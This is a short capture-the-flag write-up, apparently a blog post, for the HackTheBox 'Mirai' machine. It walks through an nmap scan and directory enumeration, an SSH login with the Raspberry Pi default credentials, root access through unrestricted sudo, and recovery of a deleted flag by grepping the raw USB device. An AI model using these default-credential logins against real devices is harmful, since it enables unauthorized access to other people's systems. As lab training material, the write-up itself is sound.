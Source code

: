 ```yaml
---
layout: post
title:  "HackTheBox - Mirai"
date:   2020-1-2 00:10:00 +0000
categories: htb
permalink: /:categories/mirai/
---
```

Cool box based off a cool concept that swept the earth.

# Nmap scan
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.7p1 Debian 5+deb8u3 (protocol 2.0)
| ssh-hostkey: 
|   1024 aa:ef:5c:e0:8e:86:97:82:47:ff:4a:e5:40:18:90:c5 (DSA)
|   2048 e8:c1:9d:c5:43:ab:fe:61:23:3b:d7:e4:af:9b:74:18 (RSA)
|   256 b6:a0:78:38:d0:c8:10:94:8b:44:b2:ea:a0:17:42:2b (ECDSA)
|_  256 4d:68:40:f7:20:c4:e5:52:80:7a:44:38:b8:a2:a7:52 (ED25519)
53/tcp open  domain  dnsmasq 2.76
| dns-nsid: 
|_  bind.version: dnsmasq-2.76
80/tcp open  http    lighttpd 1.4.35
|_http-server-header: lighttpd/1.4.35
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
```
# Dirsearch results
```
[04:08:05] 200 -   61B  - /AccessPlatform/auth/clientscripts/cookies.js
[04:08:05] 200 -   61B  - /AccessPlatform/auth/clientscripts/login.js
[04:08:09] 301 -    0B  - /admin  ->  http://10.10.10.48/admin/
[04:08:10] 200 -   61B  - /admin.js
[04:09:11] 200 -   14KB - /admin/?/login
[04:09:11] 200 -   14KB - /admin/
[04:09:11] 200 -   14KB - /admin/index.php
[04:09:42] 200 -   61B  - /Brocfile.js
[04:09:42] 200 -   61B  - /brunch-config.js
[04:09:47] 200 -   61B  - /Citrix/AccessPlatform/auth/clientscripts/cookies.js
[04:09:48] 200 -   61B  - /Citrix/AccessPlatform/auth/clientscripts/login.js
[04:10:11] 200 -   61B  - /Gruntfile.js
[04:10:11] 200 -   61B  - /gulpfile.js
[04:10:33] 200 -   61B  - /mimosa-config.js
[04:11:10] 200 -   61B  - /swfobject.js
[04:11:20] 200 -   61B  - /v1/test/js/console_ajax.js
```

# Getting user
Mirai was a botnet that abused iot devices with default credentials. We can try this too since the webapp leaks what the box might be.
```
ssh pi@10.10.10.48 : raspberry (default)
```
We can get our user flag.

# Getting root
A sudo check shows us the first part to getting root.
```
pi@raspberrypi:~ $ sudo -l
Matching Defaults entries for pi on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User pi may run the following commands on localhost:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: ALL
```

Reading root.txt we get the following message.
```
“”root.txt"" = 'I lost my original root.txt! I think I may have a backup on my USB stick...'
```

We can use df to check system devices for external media.
```
We use the df command in unix to check system devices
/dev/sdb            8887      93      8078   2% /media/usbstick
mounted to /dev/sdb

root@raspberrypi:/media/usbstick# cat damnit.txt 
Damnit! Sorry man I accidentally deleted your files off the USB stick.
Do you know if there is any way to get them back?

-James
```
ahhhhhh more steps. Lets just grep out the filesystem for a flag.
```
grep -a -B 35 -A 120 'root' /dev/sdb
```
Finally we get our flag
